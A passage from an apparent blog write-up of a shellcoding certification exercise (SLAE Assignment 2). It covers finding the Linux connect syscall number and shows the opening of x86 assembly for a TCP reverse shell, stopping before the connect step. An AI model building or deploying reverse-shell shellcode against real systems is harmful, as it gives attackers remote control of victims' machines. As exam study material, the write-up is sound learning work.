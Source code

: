 ```c
  return 0;
}
```  


## Initial Research

#### Syscalls

Most of the research has been done as a part of assignment 1. However, I did need to figure out the syscall number of `connect`. It wound up being `362`, or `0x16a`.

To learn how I found the syscall numbers, take a look at the assignment 1 write-up.


## The Final Product

And that's really all that was needed besides some minor code modification. Hopefully, the code can speak for itself. I've tried to keep it well documented.

**_assignment2.asm_**

```asm
; Filename: assignment2.nasm
; Author:  Adam Brown
; Website:  https://coffeegist.com
;
;
; Purpose: Create TCP Reverse Shell for SLAE Exam, Assignment 2

global _start

section .text
_start:

  ; Clear out registers before we get started
  xor ebx, ebx
  xor ecx, ecx
  xor edx, edx
  mul ebx ; zero out eax
  xor esi, esi
  xor edi, edi

; CREATE SOCKET
; int socket(int domain, int type, int protocol) //
; syscall number: 359 (0x167)
;
; Argument Values:
; EBX -> domain = 2 (AF_INET/IPv4)
; ECX -> type = 1 (SOCK_STREAM/TCP)
; EDX -> protocol = 6 (IPPROTO_TCP)
;
; Note: For protocol, we could also use 0, as the man page for socket tells us,
; "Normally only a single protocol exists to support a particular socket type
;   within a given protocol family, in which case protocol can be specified
;   as 0."

  mov bl, 2
  mov cl, 1
  mov dl, 6
  mov ax, 0x167
  int 0x80


; CONNECT TO REMOTE ADDRESS
```